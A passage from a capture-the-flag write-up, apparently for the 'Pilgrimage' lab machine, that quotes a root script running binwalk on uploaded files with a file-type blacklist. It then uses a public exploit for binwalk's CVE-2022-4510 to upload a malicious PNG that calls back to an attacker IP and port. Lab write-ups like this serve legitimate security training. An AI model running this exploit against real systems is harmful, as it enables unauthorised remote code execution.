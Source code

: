 ```bash
WantedBy=multi-user.target
```

We inspected the script `malwarescan.sh` and found the usage of `inotifywait` and `binwalk`.

{% code overflow="wrap" %}
```bash
#!/bin/bash

blacklist=("Executable script" "Microsoft executable")

/usr/bin/inotifywait -m -e create /var/www/pilgrimage.htb/shrunk/ | while read FILE; do
        filename="/var/www/pilgrimage.htb/shrunk/$(/usr/bin/echo "$FILE" | /usr/bin/tail -n 1 | /usr/bin/sed -n -e 's/^.*CREATE //p')"
        binout="$(/usr/local/bin/binwalk -e "$filename")"
        for banned in "${blacklist[@]}"; do
                if [[ "$binout" == *"$banned"* ]]; then
                        /usr/bin/rm "$filename"
                        break
                fi
        done
done
```
{% endcode %}

The `binwalk` is of version `v2.3.2`:

<figure><img src="../../.gitbook/assets/圖片 (28).png" alt=""><figcaption></figcaption></figure>

### CVE-2022-4510

We found the `binwalk` of version `v2.3.2` has a RCE vulnerability `CVE-2022-4510` with a public exploit.

{% embed url="https://www.exploit-db.com/exploits/51249" %}

We use the exploit to generate a malicious png file and upload the image to the path `/var/www/pilgrimage.htb/shrunk/`.

```bash
$ ./poc.py <file> <ip> <port>
```
